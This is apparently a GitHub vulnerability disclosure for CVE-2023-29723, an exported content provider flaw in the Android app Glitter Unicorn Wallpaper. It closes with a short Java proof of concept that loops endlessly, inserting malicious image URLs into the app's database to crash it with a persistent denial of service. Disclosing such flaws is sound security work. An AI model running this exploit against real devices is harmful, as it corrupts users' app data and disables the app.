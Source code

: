 ## Denial of Service & Escalation of Privileges exists in Glitter Unicorn Wallpaper（CVE-2023-29723）

Vendor：bungaakpstudio007

Affected product：Glitter Unicorn Wallpaper(com.bungaakp007.glitterunicornwallpapers07112020) 

Version：8.0 7.0

Download link：https://apkpure.com/cn/glitter-unicorn-wallpaper-4k/com.bungaakp007.glitterunicornwallpapers07112020/download

Description of the vulnerability for use in the CVE：The Glitter Unicorn Wallpaper app for Android 7.0 thru 8.0 allows unauthorized applications to actively request permission to insert data into the database that records information about a user's personal preferences and will be loaded into memory to be read and used when the application is opened. By injecting data, the attacker can force the application to load malicious image URLs and display them in the UI. As the amount of data increases, it will eventually cause the application to trigger an OOM error and crash, resulting in a persistent denial of service attack.



poc：

```java
public void attack(){
    ContentResolver contentResolver = this.getApplicationContext().getContentResolver();
    while (true) {
        Uri uri = Uri.parse("content://com.bungaakp007.glitterunicornwallpapers07112020/wall/6");
        ContentValues contentValues = new ContentValues();
        contentValues.put("nama",malicious_url);
        contentResolver.insert(uri,contentValues);
    }
}
```



